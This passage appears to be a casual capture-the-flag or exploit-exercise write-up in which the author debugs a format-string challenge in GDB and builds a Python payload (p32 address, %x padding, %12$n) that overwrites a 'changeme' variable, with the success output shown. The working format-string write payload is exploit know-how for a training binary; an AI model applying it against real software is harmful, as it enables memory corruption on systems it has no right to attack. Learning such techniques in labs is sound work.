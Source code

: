 **HOLY SH*T LOL GDB GOES INSANE** 
```
0Better luck next time - got 0x03d78c79, wanted 0x64457845!
[Inferior 1 (process 1964189) exited normally]
```
HMMMMMMMMMMMM......almost but not quite.

*OH IM SO DUMB* its in hex so we have to send that value converted to an int and subtract 4
(because size of address we're overwriting is 4)

```python
payload = p32(0x5655900c) # Address of changeme at runtime using GDB
payload += b'%1682274369x'
payload += b'%12$n'
open('payload_f3','wb').write(payload)
```
AND VOILA:
``` 0Well done, the 'changeme' variable has been changed correctly! ```
**YAY XDDDDDDD**
